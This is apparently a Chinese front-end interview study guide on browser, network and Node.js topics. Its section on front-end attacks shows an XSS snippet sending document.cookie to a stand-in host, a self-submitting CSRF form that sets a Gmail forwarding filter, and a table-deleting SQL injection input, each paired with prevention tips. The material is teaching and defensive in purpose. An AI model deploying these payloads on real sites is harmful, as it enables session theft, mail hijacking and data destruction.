




# 1.移动端click 300ms延迟

## 

## 1.1背景

智能手机开始流行的前期，浏览器可以点击缩放（double tap to zoom）网页。这样在手机上就可以浏览 PC 网页，很酷炫。


浏览器为了分辨 click 还是“点击缩放”，就强行把 click 时间延迟 300ms 触发。

## 1.2初期解决方案

[FastClick](https://www.npmjs.com/package/fastclick) 专门用于解决这个问题。

```js
// FastClick 使用非常简单
window.addEventListener( "load", function() {
    FastClick.attach( document.body )
}, false)
```

它的内部原理是:

- 监听 `touchend` 事件 （`touchstart` `touchend` 会先于 `click` 事件被触发）
- 通过 [DOM 自定义事件](https://developer.mozilla.org/zh-CN/docs/Web/API/CustomEvent) 模拟一个 click 事件
- 把 300ms 之后触发的 click 事件阻止掉

## 1.3现代浏览器的改进

随着近几年移动端响应式的大力发展，移动端网页和 PC 网页有不同的设计，不用再缩放查看。这 300ms 的延迟就多余了，现代浏览器可以通过禁止缩放来取消这 300ms 的延迟。

- Chrome 32+ on Android
- iOS 9.3

```html
<meta name="viewport" content="width=device-width" />
```

## 1.4答案

- 原因：点击缩放（double tap to zoom）网页
- 可使用 FastClick 解决
- 现代浏览器可使用 `width=device-width` 规避

# 2.1px宽度

## 2.1介绍

该问题通常用于考察你是否做过移动端 h5 项目。如果你能知道这个问题，并且答出来，知道前因后果，证明你有过 h5 开发经验。否则就说明你没有 h5 的任何开发经验，尤其是你如果都不知道这个事情，那就更加说明这一点。

## 2.2普通的`1px`

如果仅仅使用 css 的 `1px` 来设置 border ，那可能会出现比较粗的情况。因为，有些手机屏幕的 DPR = 2 ，即 `1px` 它会用两个物理像素来显示，就粗了。

```css
#box {
    padding: 10px 0;
    border-bottom: 1px solid #eee;
}
```

如下图，上面是微信 app 的 border ，下面是 `1px` 的 border ，有明显的区别。显得很粗糙，很不精致，设计师不会允许这样的页面发布上线的。



PS：你不能直接写 `0.5px` ，浏览器兼容性不好，渲染出来可能还是 `1px` 的效果。

## 2.3使用 `transform` 缩小

我们可以使用 css 伪类 + `transform` 来优化这一问题。即把默认的 `1px` 宽度给压缩 0.5 倍。

```css
#box {
    padding: 10px 0;
    position: relative;
}
#box::before {
    content: '';
    position: absolute;
    left: 0;
    bottom: 0;
    width: 100%;
    height: 1px;
    background: #d9d9d9;
    transform: scaleY(0.5);
    transform-origin: 0 0;
}
```

如下图，上面是微信 app 的 border ，下面是优化之后的 border ，两者粗细就一致了。



## 2.4连环问：如果有 `border-radius` 怎么办

可以使用 `box-shadow` 设置

- X 偏移量 `0`
- Y 偏移量 `0`
- 阴影模糊半径 `0`
- 阴影扩散半径 `0.5px`
- 阴影颜色

```css
#box2 {
    margin-top: 20px;
    padding: 10px;
    border-radius: 5px;
    /* border: 1px solid #d9d9d9; */
    box-shadow: 0 0 0 0.5px #d9d9d9;
}
```

# 3.cookie 和 token 区别

## 3.1cookie

http请求是无状态的，即每次请求之后都会断开链接。所以，每次请求时，都可以携带一段信息发送到服务端，以表明客户端的用户身份。服务端也也可以通过 `set-cookie` 向客户端设置 cookie 内容。由于每次请求都携带 cookie ，所以 cookie 大小限制 4kb 以内。



## 3.2cookie作为本地存储

前些年大家还常用 cookie 作为本地存储，这并不完全合适。所以后来 html5 增加了 `localStorage` 和 `sessionStorage` 作为本地存储。

## 3.3cookie跨域限制

浏览器存储 cookie 是按照域名区分的，在浏览器无法通过 JS `document.cookie` 获取到其他域名的 cookie 。

http 请求传递 cookie 默认有跨域限制。如果想要开启，需要客户端和服务器同时设置允许

- 客户端：使用 fetch 和 XMLHttpRequest 或者 axios 需要配置 `withCredentials`
- 服务端：需要配置 header `Access-Control-Allow-Credentials`

## 3.4浏览器禁用第三方 cookie

现代浏览器都开始禁用第三方 cookie （第三方 js 设置 cookie），打击第三方广告，保护用户个人隐私。

例如一个电商网站 A 引用了淘宝广告的 js

- 你访问 A 时，淘宝 js 设置 cookie ，记录下商品信息
- 你再次访问淘宝时，淘宝即可获取这个 cookie 内容
- 再和你的个人信息（也在 cookie 里）一起发送到服务端，这样就知道了你看了哪个商品

## 3.5cookie 和 session

cookie 用途非常广泛，最常见的就是登录。

使用 cookie 做登录校验

- 前端输入用户名密码，传给后端
- 后端验证成功，返回信息时 set-cookie
- 接下来所有接口访问，都自动带上 cookie （浏览器的默认行为， http 协议的规定）

什么是 session ？

- cookie 只存储 userId ，不去暴露用户信息
- 用户信息存储在 session 中 —— session 就是服务端的一个 hash 表

## 3.6token

token 和 cookie 一样，也是一段用于客户端身份验证的字符串，随着 http 请求发送

- cookie 是 http 协议规范的，而 token 是自定义的，可以用任何方式传输（如 header body query-string 等）
- token 默认不会在浏览器存储
- token 没有跨域限制

所以，token 很适合做跨域或者第三方的身份验证。

## 3.7token 和 JWT

JWT === JSON Web Token

JWT 的过程

- 前端输入用户名密码，传给后端
- 后端验证成功，返回一段 token 字符串 - 将用户信息加密之后得到的
- 前端获取 token 之后，存储下来
- 以后访问接口，都在 header 中带上这段 token


## 3.8答案

- cookie：http 规范；有跨域限制；可存储在本地；可配合 session 实现登录
- token：自定义标准；不在本地存储；无跨域限制；可用于 JWT 登录

## 3.9连环问：session 和 JWT 比较，你更推荐哪个？

Session 优点

- 原理简单，易于学习
- 用户信息存储在服务端，可以快速封禁某个登录的用户 —— 有这方强需求的人，一定选择 Session

Session 的缺点

- 占用服务端内存，有硬件成本
- 多进程、多服务器时，不好同步 —— 一般使用第三方 redis 存储 ，成本高
- 跨域传递 cookie ，需要特殊配置

JWT 的优点

- 不占用服务器内存
- 多进程、多服务器，不受影响
- 不受跨域限制

JWT 的缺点

- 无法快速封禁登录的用户
- 万一服务端秘钥被泄漏，则用户信息全部丢失

总结：如果没有“快速封禁登录用户”的需求，建议使用 JWT 方式。

## 3.10连环问：单点登录

### 基于 cookie

简单的，如果业务系统都在同一主域名下，比如 `wenku.baidu.com` `tieba.baidu.com` ，就好办了。
可以直接把 cookie domain 设置为主域名 `baidu.com` ，百度也就是这么干的。

### SSO

复杂一点的，滴滴这么潮的公司，同时拥有 `didichuxing.com` `xiaojukeji.com` `didiglobal.com` 等域名，种 cookie 是完全绕不开的。需要使用 SSO 技术方案


### OAuth2

上述 SSO 是 oauth 的实际案例，其他常见的还有微信登录、github 登录等。即，当设计到第三方用户登录校验时，都会使用 OAuth2.0 标准。
流程参考 RFC 6749

# 4.HTTP 和 UDP有何区别

## 4.1网络协议


- HTTP 在应用层，直接被程序使用
- TCP 和 UDP 在传输层，底层

## 4.2UDP的特点

UDP 是一种无连接的、不可靠的传输层协议。而 TCP 需要连接、断开连接，参考“三次握手、四次挥手”。UDP不需要连接，所以 UDP 的效率比 TCP 高。

虽然 UDP 从协议层是不稳定的，但随着现代网络硬件环境的提升，也能保证绝大部分情况下的稳定性。所以，UDP 一直处于被发展的趋势。

例如视频会议、语音通话这些允许中段、不完全保证持续连接的场景，又需要较高的传输效率，就很适合 UDP 协议。

## 4.3答案

- HTTP 在应用层，而 UDP 和 TCP 在传输层
- HTTP 是有连接的、可靠的，UDP 是无连接的、不可靠的

## 4.4连环问：http 1.0 1.1 2.0 区别

http 1.0 最基础的 http 协议

http 1.1

- 引入更多的缓存策略，如 `cache-control` `E-tag`
- 长链接，默认开启 `Connection: keep-alive` ，多次 http 请求减少了 TCP 连接次数
- 断点续传，状态吗 `206`
- 增加新的 method `PUT` `DELETE` 等，可以设计 Restful API

http2.0

- header 压缩，以减少体积
- 多路复用，一个 TCP 连接中可以多个 http 并行请求。拼接资源（如雪碧图、多 js 拼接一个）将变的多余
- 服务器端推送

# 5.https中间人攻击

## 5.1复习：https 加密原理

http 是明文传输，传输的所有内容（如登录的用户名和密码），都会被中间的代理商（无论合法还是非法）获取到。

http + TLS/SSL = https ，即加密传输信息。只有客户端和服务端可以解密为明文，中间的过程无法解密。


## 5.2中间人攻击

中间人攻击，就是黑客劫持网络请求，伪造 CA 证书。


解决方案：使用浏览器可识别的，正规厂商的证书（如阿里云），慎用免费证书。


#  6.defer 和 async属性有何区别

## 6.1答案

- `<script src="xxx.js">` 当解析到该标签时，会暂停 html 解析，并触发 js 下载、执行。然后再继续 html 解析。
- `<script async src="xxx.js">` js 下载和 html 解析可并行，下载完之后暂停 html 解析，执行 js 。然后再继续 html 解析。
- `<script defer src="xxx.js">` js 下载和 html 解析可并行。等待 html 解析完之后再执行 js 。


## 6.2连环问：preload prefetch dns-prefetch 的区别

- preload 表示资源在当前页面使用，浏览器会**优先**加载
- prefetch 表示资源可能在**未来的页面**（如通过链接打开下一个页面）使用，浏览器将在**空闲时**加载

```html
<head>
  <meta charset="utf-8">
  <title>JS and CSS preload</title>

  <!-- preload -->
  <link rel="preload" href="style.css" as="style">
  <link rel="preload" href="main.js" as="script">

  <!-- prefetch -->
  <link rel="prefetch" href="other.js" as="script">

  <!-- 引用 css -->
  <link rel="stylesheet" href="style.css">
</head>

<body>
  <h1>hello</h1>

  <!-- 引用 js -->
  <script src="main.js" defer></script>
</body>
```

## 6.3连环问：dns-prefetch 和 preconnect 有什么作用？

一个 http 请求，第一步就是 DNS 解析得到 IP ，然后进行 TCP 连接。连接成功后再发送请求。

dns-prefetch 即 DNS 预获取，preconnect 即预连接。当网页请求**第三方**资源时，可以提前进行 DNS 查询、TCP 连接，以减少请求时的时间。

```html
<html>
  <head>
    <link rel="dns-prefetch" href="https://fonts.gstatic.com/">
    <link rel="preconnect" href="https://fonts.gstatic.com/" crossorigin>

  </head>
  <body>
      <p>hello</p>
  </body>
</html>
```

# 7.前端攻击有哪些？该如何预防？

## 7.1XSS

Cross Site Scripting 跨站脚本攻击。

用户通过某种方式（如输入框、文本编辑器）输入一些内容，其中带有攻击代码（JS 代码）。该内容再显示时，这些代码也将会被执行，形成了攻击效果。

```html
<!-- 例如用户提交的内容中有： -->
<script>
    var img = document.createElement('img')
    img.src = 'http://xxx.com/api/xxx?userInfo=' + document.cookie // 将 cookie 提交到自己的服务器
</script>
```

最简单的解决方式：替换特殊字符

```js
const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
```

也可以使用第三方工具，例如

- https://www.npmjs.com/package/xss
- https://www.npmjs.com/package/escape-html

现代框架默认会屏蔽 XSS 攻击，除非自己手动开启

- Vue `v-html`
- React `dangerouslySetInnerHTML`

## 7.2CSRF

Cross-site request forgery 跨站请求伪造。

请看下面的故事

- 小明登录了 Gmail 邮箱，收到一封广告邮件 “转让比特币，只要 998”
- 小明抱着好奇的心态点开看了看，发现是个空白页面，就关闭了

但此时，攻击已经完成了。黑客在这个空白页面设置了 js 代码，会让小明的邮件都转发到 `hacker@hackermail.com` 。因为小明已经登录了 Gmail ，有了 Gmail 的 cookie 。所以再去请求 Gmail API 就会带着 cookie ，就有可能成功。

```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/> 
    .....
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script> 
    document.forms[0].submit();

    // PS：有些是 post 请求，有些是 get 请求
    //     get 请求如果用 img.src 还可以规避跨域，更加危险
</script>
```

邮件经常用来接收验证码，这是很危险的事情。<br>
当然了，后来 Gmail 修复了这个漏洞。但新的故事仍在不断发生中。

CSRF 的过程

- 用户登录了 `a.com` ，有了 cookie
- 黑客引诱用户访问 `b.com` 网页，并在其中发起一个跨站请求 `a.com/api/xxx`
- `a.com` API 收到 cookie ，误以为是真实用户的请求，就受理了

CSRF 的预防

- 严格的跨域请求限制
- 为 cookie 设置 `SameSite` 不随跨域请求被发送 `Set-Cookie: key1=val1; key2=val2; SameSite=Strict;`
- 关键接口使用短信验证码等双重验证

## 7.3点击劫持 Clickjacking

小明被诱导到一个钓鱼网站，点击了一个按钮，其实已经关注了慕课网双越老师。因为他可能已经登录了慕课网。<br>
这可以是关注，也可以是付款转账等其他危险操作。


点击劫持的原理：黑客在自己的网站，使用隐藏的 `<iframe>` 嵌入其他网页，诱导用户按顺序点击。

使用 JS 预防

```js
if (top.location.hostname !== self.location.hostname) {
    alert("您正在访问不安全的页面，即将跳转到安全页面！")
    top.location.href = self.location.href
}
```

增加 http header `X-Frame-Options:SAMEORIGIN` ，让 `<iframe>` 只能加载同域名的网页。

PS：点击劫持，攻击那些需要用户点击操作的行为。CSRF 不需要用户知道，偷偷完成。

## 7.4DDoS

Distributed denial-of-service 分布式拒绝服务

通过大规模的网络流量淹没目标服务器或其周边基础设施，以破坏目标服务器、服务或网络正常流量的恶意行为。<br>
类似于恶意堵车，妨碍正常车辆通行。

网络上的设备感染了恶意软件，被黑客操控，同时向一个域名或者 IP 发送网络请求。因此形成了洪水一样的攻击效果。<br>
由于这些请求都来自分布在网络上的各个设备，所以不太容易分辨合法性。

DDoS 的预防：软件层面不好做，可以选择商用的防火墙，如[阿里云 WAF](https://www.aliyun.com/product/waf?spm=5176.7967425.J_8058803260.34.3d017748VkTlhL)。

PS：阮一峰的网站就曾遭遇过 DDoS 攻击 https://www.ruanyifeng.com/blog/2018/06/ddos.html

## 7.5SQL 注入

普通的登录方式，输入用户名 `zhangsan` 、密码 `123` ，然后服务端去数据库查询。<br>
会执行一个 sql 语句 `select * from users where username='zhangsan' and password='123'` ，然后判断是否找到该用户。

如果用户输入的是用户名 `' delete from users where 1=1; --` ，密码 `'123'`<br>
那生成的 sql 语句就是 `select * from users where username='' delete from users where 1=1; --' and password='123'`<br>
这样就会把 `users` 数据表全部删除。

防止 SQL 注入：服务端进行特殊字符转换，如把 `'` 转换为 `\'`

## 7.6答案

- XSS
- CSRF
- 点击劫持
- DDoS
- SQL 注入

# 8.webSocket和 http 协议有何区别？有和应用场景？

## 8.1webSocket 简介

webSocket 和 http 都是应用层，支持端对端的通讯。可以由服务端发起，也可以由客户端发起。代码参考 ws-server 中 webSocket1.html webSocket2.html

场景：消息通知，直播讨论区，聊天室，协同编辑

## 8.2webSocket 建立连接

会先发起一个 http 请求，跟服务端建立连接。连接成功之后再升级为 webSocket 协议，然后再通讯。


## 8.3webSocket 和 http 区别

- 协议名称不同 `ws` 和 `http`
- http 一般只能浏览器发起请求，webSocket 可以双端发起请求
- webSocket 无跨域限制
- webSocket 通过 `send` 和 `onmessage` 进行通讯，http 通过 `req` 和 `res` 通讯

PS：`ws` 可以升级为 `wss` 协议，像 `http` 升级到 `https` 一样，增加 `SSL` 安全协议。

```js
import { createServer } from 'https'
import { readFileSync } from 'fs'
import { WebSocketServer } from 'ws'

const server = createServer({
  cert: readFileSync('/path/to/cert.pem'),
  key: readFileSync('/path/to/key.pem')
})
const wss = new WebSocketServer({ server })
```

## 8.4扩展

PS：如果做项目开发，推荐使用 [socket.io](https://www.npmjs.com/package/socket.io)，API 更方便。

```js
io.on('connection', socket => {
  // emit an event to the socket
  socket.emit('request', /* … */)
  // emit an event to all connected sockets
  io.emit('broadcast', /* … */)
  // listen to the event
  socket.on('reply', () => { /* … */ })
})
```

## 8.5连环问：webSocket 和长轮询（长连接）的区别

- http 长轮询 - 客户端发起 http 请求，server 不立即返回，等待有结果再返回。这期间 TCP 连接不会关闭，阻塞式。（需要处理 timeout 的情况）
- webSocket - 客户端发起请求，服务端接收，连接关闭。服务端发起请求，客户端接收，连接关闭。非阻塞。


# 9.输入 url 到页面展示的完整过程

## 9.1步骤

- 网络请求
- 解析
- 渲染页面

## 9.2网络请求

- DNS 解析，根据域名获得 IP 地址
- 建立 TCP 连接 “三次握手”
- 发送 http 请求
- 接收请求响应，获得网页 html 代码

获取了 html 之后，解析过程中还可能会继续加载其他资源：js css 图片等。静态资源可能会有强缓存，加载时要判断。


## 9.3解析

> html css 等源代码是字符串形式，需要解析为特定的数据结构，才能被后续使用。

过程

- html 构建 DOM 树
- css 构建 CSSOM（即 style tree）
- 两者结合形成 Render tree （包括尺寸、定位等）


css 包括：

- 内嵌 css `<style>`
- 外链 css `<link>`

解析到 `<script>` 加载，并有可能修改 DOM 树和 render tree 。

- 内嵌 js
- 外链 js

PS：加载和执行 `<script>` 的情况比较多，如有 `defer` `async` 属性，就不一样。

解析到 `` 等媒体文件，也要并行加载。加载完成后再渲染页面。

综上，为了避免不必要的情况，要遵守以下规则

- css 尽量放在 `<head>` 中，不要异步加载 css
- js 尽量放在 `<body>` 最后，不要中途加载、执行 js
- `` 等媒体文件尽量限制尺寸，防止渲染时重绘页面

## 9.4渲染页面

通过 render tree 绘制页面。

绘制完成之后，还要继续执行异步加载的资源

- 异步的 css ，重新渲染页面
- 异步的 js ，执行（可能重新渲染页面）
- 异步加载的图片等，可能重新渲染页面（根据图片尺寸）

最后页面渲染完成。

## 9.5答案

- 网络请求
  - DNS 解析
  - TCP 连接
  - HTTP 请求和响应
- 解析
  - DOM 树
  - render tree
- 渲染页面
  - 可能重绘页面

## 9.6连环问：什么是重绘 repaint 和重排 reflow ，有何区别

页面渲染完成之后，随着异步加载和用户的操作，会随时发生 repaint 或者 reflow 。例如

- 各种网页动画
- modal dialog 弹框
- 页面元素的新增、删除和隐藏

结论：重排的影响更大

- 重绘 repaint ：某些元素的外观被改变，但尺寸和定位不变，例如：元素的背景色改变。
- 重排 reflow ：重新生成布局，重新排列元素。如一个元素高度变化，导致所有元素都下移。

重绘不一定重排，但重排一定会导致重绘。所以，要尽量避免重排。

- 集中修改样式，或直接使用 `class`
- DOM 操作前先使用 `display: none` 脱离文档流
- 使用 BFC ，不影响外部的元素
- 对于频繁触发的操作（`resize` `scroll` 等）使用节流和防抖
- 使用 `createDocumentFragment` 进行批量 DOM 操作
- 优化动画，如使用 `requestAnimationFrame` 或者 CSS3（可启用 GPU 加速）

## 9.7连环问：触发 css BFC 的条件

BFC - Block Formatting Context 块格式化上下文

- 根节点 html
- 设置 float `left` `right`
- 设置 overflow `auto` `scroll` `hidden`
- 设置 display `inline-block` `table` `table-cell` `flex` `grid`
- 设置 position `absolute` `fixed`

# 10.网页多标签页之间的通讯

例如打开两个 chrome 标签，一个访问列表页，一个访问详情页。在详情页修改了标题，列表页也要同步过来。

## 10.1webSocket

通过 webSocket 多页面通讯，无跨域限制。

## 10.2localStorage

同域的两个页面，可以通过 localStorage 通讯。A 页面可以监听到 B 页面的数据变化。

```js
// list 页面
window.addEventListener('storage', event => {
    console.log('key', event.key)
    console.log('newValue', event.newValue)
})

// detail 页面
localStorage.setItem('changeInfo', 'xxx')
```

## 10.3SharedWorker

Javascript 是单线程的，而且和页面渲染线程互斥。所以，一些计算量大的操作会影响页面渲染。[WebWorker](https://developer.mozilla.org/zh-CN/docs/Web/API/Web_Workers_API/Using_web_workers) 可以 `new Worker('xxx.js')` 用来进行 JS 计算，并通过 `postMessage` 和 `onmessage` 和网页通讯。但这个 worker 是当前页面专有的，不得多个页面、iframe 共享。

PS：WebWorker 专用于 JS 计算，不支持 DOM 操作。

[SharedWorker](https://developer.mozilla.org/zh-CN/docs/Web/API/SharedWorker) 可以被同域的多个页面共享使用，也可以用于通讯。源码参考 msg-sharedWork-list.html 和 msg-sharedWork-detail.html 。注意，worker 中的日志需要 `chrome://inspect` 中打开控制台查看。

PS：注意浏览器兼容性，不支持 IE11

## 10.4答案

- webSocket 需要服务端参与，但不限制跨域
- localStorage 简单易用
- SharedWorker 本地调试不太方便，考虑浏览器兼容性

## 10.5连环问：iframe 通讯

除了上述几个方法，iframe 通讯最常用 [window.postMessage](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/postMessage) ，支持跨域。

通过 `window.postMessage` 发送消息。注意第二个参数，可以限制域名，如发送敏感信息，要限制域名。

```js
// 父页面向 iframe 发送消息
window.iframe1.contentWindow.postMessage('hello', '*')

// iframe 向父页面发送消息
window.parent.postMessage('world', '*')
```

可监听 `message` 来接收消息。可使用 `event.origin` 来判断信息来源是否合法，可选择不接受。

```js
window.addEventListener('message', event => {
    console.log('origin', event.origin) // 通过 origin 判断是否来源合法
    console.log('child received', event.data)
})
```

# 11.koa2 洋葱圈模型

## 11.1解释

代码参考 Koa2 官网

```js
const Koa = require('koa');
const app = new Koa();

// logger
app.use(async (ctx, next) => {
  await next();
  const rt = ctx.response.get('X-Response-Time');
  console.log(`${ctx.method} ${ctx.url} - ${rt}`);
});

// x-response-time
app.use(async (ctx, next) => {
  const start = Date.now();
  await next();
  const ms = Date.now() - start;
  ctx.set('X-Response-Time', `${ms}ms`);
});

// response
app.use(async ctx => {
  ctx.body = 'Hello World';
});

app.listen(3000);
```

## 11.2图示




# 12.为何需要 nodejs

当 Java PHP Python 等服务端语言和技术都完备的情况下，为何还需要 nodejs 做服务端呢？

## 12.1对比其他语言

当年 Java 被发明使用时， C C++ 也发展了几十年了，为何 Java 还照样发展壮大起来呢？

以及近几年、现在，仍有多种新的语言被发明和使用，例如 swift golang Dart 等。

所以，nodejs 被使用不是个例，而是历史、现在、未来都发生的事情，它仅仅是其中的一件。

## 12.2技术的核心价值 —— 提升效率

如果你去做一个年终总结或者晋升述职，你对你的领导说：“我今年用了一个 xx 技术，非常厉害。最先进的技术，github stars 多少多少，国内外个大公司都在用，基于它来开发非常爽...”

说完，你的领导心里会有一个大大的问号：然后呢？这个技术给我降低了多少成本？带来了多少收益？—— 技术是生产力，技术的厉害最终都会体现到生产效率。让领导带着这个疑问，那你的年终奖或者晋升估计悬了。

现在你换一种说法：“我今年用了一个 xx 技术，非常厉害。这一年我们的项目工期降低了 xx ，项目 bug 率降低了 xx ，核算项目成本降低了 xx ，效率增加了 xx ...”然后把这个技术的优势展示一下，再展示一些统计数据。

说完，领导一看就觉得心里踏实了。

PS：不仅仅是软件技术，这个世界上任何技术、产品、制度流程、组织关系的存在，都是在优化效率。乃至全社会的经济发展，说白了就是生产效率。

## 12.3nodejs 如何提升效率

网上说的 nodejs 的好处，大概都是：单线程，基于事件驱动，非阻塞，适合高并发服务。这些都是技术优势，就跟上文的第一个述职一样，没有体现任何生产效率的价值。

有同学可能会问：“适合高并发服务” 这不就是生产效率吗？—— 这是一个好问题但是，我们看问题得综合起来看。例如，你告诉 Java 工程师 nodejs 的好处，他们会用吗？—— 不会的，因为学习和切换技术栈需要大量的成本。

所以，nodejs 的关键在于它用了 JS 语法，而社会上有大量的熟悉 JS 的前端工程师。

- JS 语言不用学习，只需要了解 nodejs API 即可
- 前端工程师不做服务端，没有切换技术栈的历史包袱

而前端工程师如果想要做服务端、做 webpack 等工具，nodejs 显然是他们最适合的技术方案，效率最高的方案。如果让他们再去学习 Java 等其他语言，这又是一大成本。

## 12.4前端工程师需要自己做服务端吗？

如果是一个公司级别的系统，庞大的项目，前端、客户端、服务端指责划分明确，只不需要前端工程师来开发服务端的。

但有些职能部门，需要开发一些企业内部的管理工具，或者一些小型的系统。此时再去找服务端的人，会遇到很多沟通障碍，特别是某些大公司，还有很多其他非技术的因素阻碍沟通。所以，预期困难的沟通还不如自己搞一个，反正也不会很复杂（相对于企业级的大系统后端来说）。

而且，自己开发了服务端，就可以争取到更多的资源和工作机会。领导很希望这样，因为这样可以扩大自己的退伍，有利于领导未来的晋升。

综合来看，在这些情况下，前端人员用 nodejs 自研服务端，是不是效率最高的方式呢？—— 答案很明显。

## 12.5总结

nodejs 有一定的技术优势，但它真正的优势在于使用 JS 语法，前端工程师学习成本低，能提高研发效率。